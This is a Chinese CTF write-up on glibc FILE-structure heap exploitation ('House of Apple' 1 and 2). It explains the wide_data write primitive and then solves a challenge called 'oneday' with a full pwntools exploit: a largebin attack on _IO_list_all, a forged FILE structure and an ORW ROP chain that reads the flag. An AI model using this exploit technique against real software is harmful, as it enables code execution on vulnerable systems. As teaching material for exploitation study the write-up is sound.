










# apple1

apple1不是shell攻击手法而是类似于unsortedbin attack跟large binattack的任意地址写固定值的手法。所以这里就不从题目出发了，就写一遍我apple1的心得。

apple系列的利用几乎完全集中于wide_data。

apple1利用了wide_data中

```
if (fp->_wide_data->_IO_buf_base != snf->overflow_buf)
    {
      _IO_wsetb (fp, snf->overflow_buf,
		 snf->overflow_buf + (sizeof (snf->overflow_buf)
				      / sizeof (wchar_t)), 0);

      fp->_wide_data->_IO_write_base = snf->overflow_buf;
      fp->_wide_data->_IO_read_base = snf->overflow_buf;
      fp->_wide_data->_IO_read_ptr = snf->overflow_buf;
      fp->_wide_data->_IO_read_end = (snf->overflow_buf
				      + (sizeof (snf->overflow_buf)
					 / sizeof (wchar_t)));
    }
```

snf 的地址和 fp 的地址相同，所以fp->_wide_data->_IO_buf_base != snf->overflow_buf这个条件正常情况下是正的。

然后就会执行下面的写入操纵， fp->_wide_data->_IO_write_base = snf->overflow_buf。

当我们能够控制fp->_wide_data的时候也就代表我们能去控制snf->overflow_buf的写入位置。

（这里的fp跟snf就借助ai的介绍）

*fp (File Pointer)：是 FILE* 类型的指针，是这个工具箱的“标准接口视图”。从 fp 的角度看，这个工具箱就是一个标准的 _IO_FILE 结构体，它关心的是文件流操作的通用信息，比如读写指针、缓冲区状态等。当 _IO_wstrn_overflow 函数被调用时，系统传入的就是这个“标准接口视图”。*

*snf (String File)：是 IO_wstrnfile* 类型的指针，是这个工具箱的“扩展功能视图”。IO_wstrnfile 是一个更具体的结构体，它把 IO_FILE 作为自己的第一个成员，并在此基础上添加了一些额外属性（比如 overflow_buf 这个缓冲区）。snf 就是通过 (IO_wstrnfile *) fp 这种强制类型转换得到的，它让函数能以“宽字符串文件”这种更丰富的视角来操作同一个工具箱。*

# apple2（例题oneday）

也是经典的菜单题



入口点输入key，这里硬性要求key在5-10之间，之后会对key进行一次扩大。key影响到的是下面add函数所申请的堆块大小。



add函数里面有选择的创建堆块的大小，所有大小都是按照key来的。



delt函数没事好说的，uaf。



输入函数，只让用一次。



show函数也一样，只让用一次。

既然知道是要用apple2，那思路就不分析了。

要想利用largebinattack进行攻击IO_list_all，劫持IO结构体到布置好的堆块上。我们至少要有堆块地址跟libc地址。

show函数只能打印18个字节，所以说只能是利用unsortedbin链表进行打印。

释放两个不相邻的堆块进入unsortedbin就行。

这一步就不上图了，很简单。

然后就是想办法拿到一个largenbin的堆块了。我们一个有三个大小的堆块进行选择，进入largenbin的堆块只能是key+0x10的堆块。为啥？

因为我们需要一个小堆块用来触发attack，又需要一个大堆块让这两个堆块进入largebin。

然后利用uaf和唯一一次edit的机会对进入largebin的堆块进行更改bk_nextsize并且布局IO的伪造。



然后这个就是此时IO_list_all指向的第一个chain。

这个的flag位为0很明显是不合格的，所以会去寻找到下一个chain，而下一个链表也是我们提前布置好的。



第二个链表如图，vtable指向的是IO_wfile_jumps，所以这里会走_wide_data这条路线。至于这里的其他数据除了IO_write_ptr和flag是为了绕过检查，其他的地方后面都会用到。

看向wide_data的内容



然后就会触发这里的虚表，而这个题目是有沙盒的所有要打ORW。

打ORW的思路呢用到的是文章带的gadget地址。



就是libc的这里，这里的rdi是我们第二个链的链表头，rdi+0x48的位置是我们可以控制的，所以我们就可以借此来控制rbp跟rax。而rax是我们要跳转的地址。

所以之前的第二个链表上的数据就是为了能控制rbp。打ORW要进行栈迁移，而栈迁移我们就要控制rbp。所以这里的rbp也就是rdi+0x48存储的地点就是我们要迁移的位置。然后在这个位置之后还要再进行一次跳转控制rax。到一个gadget。

而这个gadget的位置是add rsp，18；ret。把栈的位置调整到我们要的rop地址。

这里的syscall，libc里面我没找到干净的，然后用的read函数里的一个syscall地址。



但是这里也是有个多余的add rsp，0x28。所以需要多加点垃圾字节。

```
from pwn import *

context.arch = 'amd64'
r = process('./11')
libc = ELF('./libc6_2.34-0ubuntu3_amd64.so')
r.recvuntil(b'>>')
num = 8
r.sendline(str(num).encode())
def add(num):
    r.sendlineafter(b':',b'1')
    r.sendlineafter(b':',str(num).encode())
def delt(num):
    r.sendlineafter(b':',b'2')
    r.sendlineafter(b':',str(num).encode())
def show(num):
    r.sendlineafter(b':',b'4')
    r.sendlineafter(b':',str(num).encode())
def edit(num,txt):
    r.sendlineafter(b':',b'3')
    r.sendlineafter(b':',str(num).encode())
    r.sendlineafter(b':',txt)
add(1)
add(2)
add(1)
add(2)
delt(0)
delt(2)

show(0)
r.recvuntil(b'Message: \n')

libc_arean = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(libc_arean))
libc_base = libc_arean - 0x218CC0
print(hex(libc_base))
r.recv(2)
heap = u64(r.recv(6).ljust(8,b'\x00'))
heap_base = heap - 0x13c0
print(hex(heap_base))
add(1)
add(1)
add(1)
delt(1)
add(3)

large_arean = libc_base +0x2191D0
IO_list_all = libc_base + libc.sym['_IO_list_all'] - 0x20
IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
system=libc_base+libc.symbols['system']
open_addr=libc_base+libc.symbols['open']
read_addr=libc_base+libc.symbols['read']
write_addr=libc_base+libc.symbols['write']
flag = heap_base + 0xda8
ROW_gadget = libc_base + 0x16caba
pop_rdi_ret = libc_base +0x2e6c5
pop_rsi_ret = libc_base +0x0000000000030081
pop_rax_ret = libc_base +0x0000000000049f10
syscall = libc_base + 0x117900 +74
pop_rdx_ret  =  libc_base +0x0000000000120272
leave_ret =  libc_base +0x000000000005a1ac
add_rsp_ret = libc_base + 0x000000000003e7d9
rop=p64(pop_rdi_ret)
rop+=p64(flag)# 'flag' address
rop+=p64(pop_rsi_ret)
rop+=p64(0)
rop+=p64(pop_rax_ret)
rop+=p64(2)
rop+=p64(syscall)

#read
rop+= p64(0)*5
rop+=p64(pop_rdi_ret)
rop+=p64(3)
rop+=p64(pop_rsi_ret)
rop+=p64(heap_base+0x240)# flag store address
rop+=p64(pop_rdx_ret)
rop+=p64(0x50)
rop+=p64(read_addr)

#write
rop+=p64(pop_rdi_ret)
rop+=p64(1)
rop+=p64(pop_rsi_ret)
rop+=p64(heap_base+0x240)# flag store address
rop+=p64(pop_rdx_ret)
rop+=p64(0x50)
rop+=p64(write_addr)
io_file=p64(~(2 | 0x8 | 0x800)+(1<<64))#_flags
io_file+=p64(0)*3
io_file+=p64(0)+p64(1)#write_base && write_ptr
io_file+=p64(0)*3
io_file+=p64(heap_base+0xdc0-0x18)#rbp  [rdi+0x48]
io_file+=p64(0)*10
io_file+=p64(heap_base+0xce0)#wide_data
io_file+=p64(0)*6
io_file+=p64(IO_wfile_jumps)
wide_data=p64(0)*21
wide_data+=p64(leave_ret)#second call
wide_data+=p64(0)*3
wide_data+=b"./flag\x00\x00"
wide_data+=p64(add_rsp_ret)
wide_data+=p64(0)
wide_data+=p64(heap_base+0xce0-0x68+(8*29))
wide_data+=p64(ROW_gadget)#first call
wide_data+=rop

payload = (p64(large_arean)*2 +p64(IO_list_all+0x20)+p64(IO_list_all)+p64(0)*7+p64(heap_base+0xc00)+p64(0)*14 +io_file+wide_data).ljust(8*272-1,b'\x00')

edit(1,payload)

delt(6)
add(3)
add(1)
gdb.attach(r)
r.sendlineafter("enter your command: \n",str(5))
r.interactive()
```

